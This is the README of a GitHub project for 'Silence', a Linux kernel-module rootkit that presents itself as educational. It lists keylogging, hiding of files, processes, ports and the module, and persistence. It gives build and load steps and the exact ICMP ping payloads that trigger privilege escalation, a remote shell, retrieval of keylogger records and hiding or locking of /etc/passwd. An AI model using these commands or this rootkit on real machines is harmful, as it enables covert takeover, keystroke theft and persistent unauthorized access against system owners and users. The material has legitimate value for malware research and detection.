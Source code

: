 # Description

> [!Important]
> This rootkit is for educational and research purposes only.
> This project is a prototype, and not fully functionnal.

Kprobe-based LKM rootkit. With ICMP communication and Keylogger.

![image](https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Ftse3.explicit.bing.net%2Fth%3Fid%3DOIP.ISHOXpUsB9fX9l71a0BBjwHaFj%26pid%3DApi&f=1&ipt=c86d1cb0a5d83dcf729912e13d39ba4e311f76e07fca3329faaa9a0108a9ecc7&ipo=images)

# Overview

* ICMP communication
* Keylogger
* File hide
* PID hide
* Port hide
* LKM hide
* Openrc Persistence

# Build

## Quick start

```bash
git clone https://github.com/MikeHorn-git/Silence
cd Silence
make
```

## Makefile

```makefile
Usage: make <target>
Targets:
  help         Display this help message
  all          Build LKM
  clean        Clean LKM
  dist         Create tar archive release
  format       Format all .c, .h files with clang-format
```

# Dev Environment

```bash
git clone https://github.com/MikeHorn-git/Silence
cd Silence/test/qemu
```

## Download Kernel

```bash
./download.sh
```

## Build Qemu

```bash
./build <path_to_bzImage>
```

## Run Qemu

```bash
./run.sh
```

## Load LKM

```bash
sh /mount.sh
sh /network.sh
insmod silence.ko
depmod
```

## Interact

> [!Important]
> Do not using ping from [Busybox](https://www.busybox.net/)

```ping -p <code> -c 1 8.8.8.8```

### Elevate process privilege

```ping -p ca550100000000000000000000000000 -c 1 8.8.8.8```

### Launch a remote shell

```ping -p ff -c 1 8.8.8.8```

### Get a keylogger records

```ping -p ba -c 1 8.8.8.8```

### Hide process

```ping -p de550100000000000000000000000000 -c 1 8.8.8.8```

### Hide passwd file

```ping -p ad017061737377640000000000000000 -c 1 8.8.8.8```

### Restore

```ping -p ad007061737377640000000000000000 -c 1 8.8.8.8```

### Unable to open /etc/passwd

```ping -p fe012f6574632f706173737764000000 -c 1 18.8.8.8```

### Restore

```ping -p fe002f6574632f706173737764000000 -c 1 18.8.8.8```

# Authors

* [p2lu](https://github.com/p2lu): ICMP communication, LKM aggregation and fixes.
* [exhyl](https://github.com/hnopew): Keylogger, fixes and tests.
* [MikeHorn-git](https://github.com/MikeHorn-git): Hide, persistence and tests.
